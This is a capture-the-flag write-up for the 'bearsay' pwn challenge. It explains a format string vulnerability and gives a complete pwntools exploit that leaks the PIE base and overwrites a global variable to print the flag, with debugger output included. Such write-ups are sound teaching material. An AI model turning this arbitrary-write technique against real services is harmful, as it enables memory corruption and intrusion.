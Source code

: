 ## pwn/bearsay

solved by vulnx https://vulnx.github.io/

## challenge description

bearsay(1)

bearsay - configurable speaking/thinking bear (and a bit more)

nc chal.amt.rs 1338

![bearsay](assets/image.png)

### Analysis

The entire program is relatively large to reverse engineer (although not difficult at all), but the crux is here:

```c
      iVar2 = strcmp("flag",&buffer);
      if (iVar2 != 0) break;
      if (is_mother_bear != 0xbad0bad) {
        uVar1 = rand();
        printf("ANGRY BEAR %s\n",*(undefined8 *)(bears + (ulong)(uVar1 & 3) * 8));
                    /* WARNING: Subroutine does not return */
        exit(1);
      }
      __stream = fopen("./flag.txt","r");
      fgets(flag,0x1000,__stream);
      fclose(__stream);
      box(0x7c,0x2d,2,flag);
      puts("|\n|\n|");
      uVar1 = rand();
      puts(*(char **)(bears + (ulong)(uVar1 & 3) * 8));
    }
```

if we give "flag" as the input the program will open `./flag.txt` and print it out, provided `is_mother_bear` = 0xbad0bad. The only problem is, `is_mother_bear` is explicitly defined as 0 and moreover it is never changed throughout the entire execution.

### Vulnerability

Honestly I did not reverse engineer the entire program and couldn't find the vulnerability in the first attempt and almost gave up. 

Luckily my teammate [makider](https://makider.me/) did not give up and tested the program for format string vulnerability, and it turns out, that was the intented bug. So I took the efforts and saw the `box()` function again and found that it was hiding between several `putchar()` calls:

```c
  putchar(0x20);
  printf(param_4); // <- vulnerability
  putchar(0x20);
  putchar((int)param_1);
  putchar(10);
```

Format string vulnerabilities are super helpful because they allow both arbitrary read and arbitrary write.

### Exploit

From now the plan is straightforward, use fmt vuln to write 0xbad0bad to `is_mother_bear`, but if you look at the protections:

```console
$ checksec chal
[*] '/home/vulnx/Games/CTFs/amateurs/pwn/bearsay/bearsay/chal'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    RUNPATH:  b'./lib'
```

`PIE` is enabled, which means the memory address of `is_mother_bear` will be randomized on every execution.

This is not a problem for us since we can utilise the fmt vuln to get a binary leak and use that leak to calculate the actual address of `is_mother_bear` at runtime since the interal offsets won't be changing.

If you set a breakpoint in GDB just before the `printf(foo)` call and look at the stack, here is how it will look:

```
pwndbg> b * box +188
Breakpoint 1 at 0x131b
pwndbg> r
Starting program: /home/vulnx/Games/CTFs/amateurs/pwn/bearsay/bearsay/chal
🧸 say: AAAABBBB
************
*
Breakpoint 1, 0x000055555555531b in box ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
...
pwndbg> stack 50
00:0000│ rsp 0x7fffffffb9b0 ◂— 0x0
01:0008│-038 0x7fffffffb9b8 —▸ 0x7fffffffba30 ◂— 'AAAABBBB'
02:0010│-030 0x7fffffffb9c0 ◂— 0xf7ffd040
03:0018│-028 0x7fffffffb9c8 ◂— 0x7f2af7c7f42a
04:0020│-020 0x7fffffffb9d0 ◂— 0x0
05:0028│-018 0x7fffffffb9d8 ◂— 0xffffda40
06:0030│-010 0x7fffffffb9e0 ◂— 0x8ffffdb58
07:0038│-008 0x7fffffffb9e8 ◂— 0x61ac0e76eaaf3100
08:0040│ rbp 0x7fffffffb9f0 —▸ 0x7fffffffda40 ◂— 0x1
09:0048│+008 0x7fffffffb9f8 —▸ 0x555555555678 (main+702) ◂— mov eax, dword ptr [rbp - 0x202c]
0a:0050│+010 0x7fffffffba00 —▸ 0x7fffffffdb58 —▸ 0x7fffffffdedc ◂— '/home/vulnx/Games/CTFs/amateurs/pwn/bearsay/bearsay/chal'
0b:0058│+018 0x7fffffffba08 ◂— 0x100000000
0c:0060│+020 0x7fffffffba10 ◂— 0x800000000
0d:0068│+028 0x7fffffffba18 —▸ 0x7fffffffba38 ◂— 0x0
0e:0070│+030 0x7fffffffba20 ◂— 0x0
0f:0078│+038 0x7fffffffba28 ◂— 0x0
10:0080│ rdi 0x7fffffffba30 ◂— 'AAAABBBB'
11:0088│+048 0x7fffffffba38 ◂— 0x0
... ↓        32 skipped
```

We notice 2 important things from this stack dump:

1. We have a binary address at RBP+0x8 : `0x7fffffffb9f8 —▸ 0x555555555678`

2. Our input is at RBP+0x40 : `0x7fffffffba30 ◂— 'AAAABBBB'`

We can easily calculate at which indexes can we find these by:

`index = ((<stack_address> - RSP)/8)+6`

In this case:

```
pwndbg> p/d ((0x7fffffffb9f8-0x7fffffffb9b0)/8)+6
$1 = 15
pwndbg> p/d ((0x7fffffffba30-0x7fffffffb9b0)/8)+6
$2 = 22
```

- we can get binary leak via: `%15$p`

- and get the start of our input via: `%22$p`

Also by doing this:

```
pwndbg> vmmap 0x555555555678
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
             Start                End Perm     Size Offset File
    0x555555554000     0x555555555000 r--p     1000      0 /home/vulnx/Games/CTFs/amateurs/pwn/bearsay/bearsay/chal
►   0x555555555000     0x555555556000 r-xp     1000   1000 /home/vulnx/Games/CTFs/amateurs/pwn/bearsay/bearsay/chal +0x678
    0x555555556000     0x555555557000 r--p     1000   2000 /home/vulnx/Games/CTFs/amateurs/pwn/bearsay/bearsay/chal
pwndbg> p/x 0x555555555678-0x555555554000
$3 = 0x1678
```

we can find out that the binary leak is 0x1678 bytes ahead of the actual binary base so we know what to subtract :D



Once we have the correct binary base, we have the correct address of `is_mother_bear`, now we can simply use pwntools `fmtstr_payload` function to set `is_mother_bear` to 0xbad0bad via:

```python
payload = fmtstr_payload(22, {
    is_mother_bear: 0xbad0bad
}, write_size='short')
```

we then send this payload and get the flag.

Here is the full solve script:

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./chal", checksec=False)

context.binary = exe
context.terminal = [ 'tmux', 'splitw', '-h' ]
gdbscript='''
b * box+188
c
'''
def conn():
    if args.LOCAL:
        r = process([exe.path])
    else:
        r = remote("chal.amt.rs", 1338)

    return r


def main():
    r = conn()

    # good luck pwning :)
    # gdb.attach(r, gdbscript=gdbscript)
    r.sendlineafter(b'say: ', b'%15$p')
    r.recvuntil(b'0x')
    leak = int( r.recvline().split(b' ')[0], 16 )
    log.info('leak @ %s' % hex(leak))
    exe.address = leak - 0x1678
    log.success('exe.address @ %s' % hex(exe.address))
    is_mother_bear = exe.sym.is_mother_bear
    log.info('is_mother_bear @ %s' % hex(is_mother_bear))
    payload = fmtstr_payload(22, {
        is_mother_bear: 0xbad0bad
    }, write_size='short')
    r.sendlineafter(b'say: ', payload)
    r.sendlineafter(b'say: ', b'flag')
    print(r.recvline_contains(b'amateursCTF').decode())
    r.close()


if __name__ == "__main__":
    main()
```

```console
$ python solve.py
[+] Opening connection to chal.amt.rs on port 1338: Done
[*] leak @ 0x56286eb81678
[+] exe.address @ 0x56286eb80000
[*] is_mother_bear @ 0x56286eb84044
| amateursCTF{bearsay_mooooooooooooooooooo?} |
[*] Closed connection to chal.amt.rs port 1338
```

### Flag

`amateursCTF{bearsay_mooooooooooooooooooo?}`